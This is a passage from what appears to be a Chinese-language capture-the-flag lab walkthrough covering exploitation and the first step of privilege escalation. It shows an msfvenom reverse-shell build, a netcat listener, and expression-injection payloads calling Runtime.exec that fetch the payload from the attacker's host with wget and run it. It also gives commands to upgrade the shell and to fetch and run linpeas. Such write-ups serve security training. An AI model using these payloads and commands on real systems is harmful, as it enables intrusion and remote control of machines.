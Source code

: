 可以看到，靶机可以访问我们网站，然后我们用msfvenom生成一个木马
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f elf > shell.elf
chmod 777 shell.elf
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/47e10f64403545899238e3e3cdfcfda6.png)


然后用netcat监听shell返回的端口
```
nc -lvnp 4444
```
去到靶机网站上，依次执行以下内容
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget http://10.10.14.10/shell.elf")}  //从我们网站上获取木马

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./shell.elf")}   //给木马当前用户最大的权限

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./shell.elf")}   //执行木马
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/ef6eb80999634bff934e492324065403.png)

成功返回shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'  //获取bash，使shell更方便
```

# 提权
## 信息搜集
现在我们只是一个普通用户的权限，需要获取root权限，首先我们还需要用linpeas脚本搜集机子的基本信息

这是一个自动化枚举工具：
```
https://github.com/carlospolop/PEASS-ng/releases/tag/20221016
```

下载好后，放到刚刚生成木马的文件夹里


![在这里插入图片描述](https://img-blog.csdnimg.cn/53383b54a95b48e3bed45659da310f4a.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/dad4ce9f7f8c4ae882f838009b1d30b2.png)

然后将这个脚本移动到靶机里
```
wget http://10.10.14.10/linpeas.sh
chmod 777 linpeas.sh
./linpeas.sh
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/1e3bcd862c5f4ae1a635bd77a5053e8f.png)
